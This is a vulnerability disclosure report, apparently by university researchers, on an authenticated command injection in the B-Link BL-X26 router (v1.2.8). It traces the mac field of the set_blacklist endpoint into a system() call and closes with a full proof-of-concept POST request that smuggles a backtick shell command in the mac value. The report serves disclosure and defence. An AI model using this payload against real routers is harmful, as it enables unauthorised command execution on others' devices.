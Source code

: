 

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## **Basic Information**



- **Vendor:** B-Link
- **Vendor Website:** https://www.b-link.net.cn/
- **Affected Device Type:** Router
- **Affected Product:** BL-X26
- **Affected Product Version:** v1.2.8



## 1.Vulnerability Overview

B-Link X26 router V1.2.8 version has a command execution vulnerability. Triggering this vulnerability requires authorization. Once the attacker obtains authorization, he can trigger the vulnerability by sending a malicious HTTP POST request.

## 2.Vulnerability Details

Through IDA analysis, there is also a command execution vulnerability when the value is set_blacklist. It is located in the processing function sub_sub_45F6D4, where the mac address and enable fields are obtained and then passed to the bs_SetMacBlack function.

![](img/1.png)

This function is also encapsulated into the libshare-0.0.26.so library. The value obtained by v11 here is the mac address passed in at the beginning.

![](img/2.png)

Finally, the splicing entered the system function and executed the command

![](img/3.png)



## 3.POC

POST /goform/set_blacklist HTTP/1.1

Host: 192.168.16.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Edg/139.0.0.0

Accept: application/json, text/javascript, */*; q=0.01

X-Requested-With: XMLHttpRequest

Referer: http://192.168.16.1/admin/more.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: user=admin; platform=0

Connection: keep-alive

Content-Type: application/x-www-form-urlencoded

Content-Length: 43

mac=`ls -al / > /etc_ro/web/4.txt`&enable=1

![](img/4.png)

![](img/5.png)